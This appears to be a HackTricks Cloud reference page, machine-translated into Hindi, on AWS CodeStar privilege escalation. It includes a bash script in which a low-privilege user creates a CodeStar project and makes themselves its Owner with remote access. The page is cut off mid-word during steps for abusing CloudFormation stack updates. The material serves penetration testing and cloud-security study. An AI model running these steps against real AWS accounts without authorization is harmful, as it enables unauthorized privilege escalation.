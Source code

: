 # AWS - Codestar विशेषाधिकार

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks swag प्राप्त करें**](https://peass.creator-spring.com)
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## Codestar

आप codestar के बारे में अधिक जानकारी यहाँ पा सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

इन अनुमतियों के साथ आप **कोडस्टार IAM भूमिका का दुरुपयोग** करके **एक क्लाउडफॉर्मेशन टेम्पलेट** के माध्यम से **विविध क्रियाएं** कर सकते हैं। निम्नलिखित पृष्ठ की जाँच करें:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

इस तकनीक का उपयोग `codestar:CreateProject` करने के लिए किया जाता है ताकि एक codestar परियोजना बनाई जा सके, और `codestar:AssociateTeamMember` का उपयोग करके एक IAM उपयोगकर्ता को एक नई कोडस्टार **परियोजना** के **मालिक** बनाया जा सके, जिससे उन्हें **कुछ अतिरिक्त अनुमतियों के साथ एक नई नीति** प्राप्त हो।
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
यदि आप पहले से **परियोजना के सदस्य** हैं तो आप **अपनी भूमिका को मालिक के रूप में अपडेट** करने के लिए अनुमति **`codestar:UpdateTeamMember`** का उपयोग कर सकते हैं बजाय `codestar:AssociateTeamMember`

**संभावित प्रभाव:** codestar नीति में उन्नति। आप उस नीति का एक उदाहरण यहाँ पा सकते हैं:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. एक नई परियोजना बनाने के लिए **`codestar:CreateProjectFromTemplate`** का उपयोग करें।
1. आपको "CodeStarWorker-\<परियोजना का नाम>-CloudFormation" IAM भूमिका को पास किया जाएगा वाले स्टैक पर **`cloudformation:UpdateStack`** का उपयोग करने की अनुमति दी जाएगी।
2. लक्षित स्टैक को अपनी पसंद के CloudFormation टेम्पलेट के साथ अपड
